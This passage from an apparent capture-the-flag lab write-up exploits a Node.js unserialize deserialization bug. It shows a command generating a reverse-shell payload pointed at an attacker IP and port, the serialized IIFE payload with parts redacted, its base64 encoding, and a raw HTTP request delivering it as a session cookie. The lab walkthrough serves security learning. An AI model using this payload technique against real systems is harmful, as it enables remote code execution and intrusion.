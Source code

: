 ~~~

~~~

## Exploit (reverse shell)

Searching for "nodejs unserialize reverse shell" leads to [this page](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which I followed to generate the reverse shell payload.

Let's generate our reverse shell payload:

~~~
kali@kali:/data/VulnNet_Node/files$ python nodejsshell.py 10.8.50.72 4444
[+] LHOST = 10.8.50.72
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,[REDACTED],84,41,59,10))
~~~

Now let’s generate the serialized payload and add IIFE brackets after the function body.

~~~
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,[REDACTED],84,41,59,10))}()"}
~~~

At last, base64-encode the serialized payload:

~~~
kali@kali:/data/VulnNet_Node/files$ echo -n '{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode10,118,97,114,[REDACTED],84,41,59,10))}()"}' | base64
~~~

And use this base64 string as the `session` cookie (use BurpSuite Repeater):

~~~
GET / HTTP/1.1
Host: 10.10.8.182:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJyY2UiOiJfJ[REDACTED]9KCkifQ==
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
Cache-Control: max-age=0

~~~

And now we have a reverse shell:

![reverse-shell.png](file/reverse-shell.png)

## Lateral move

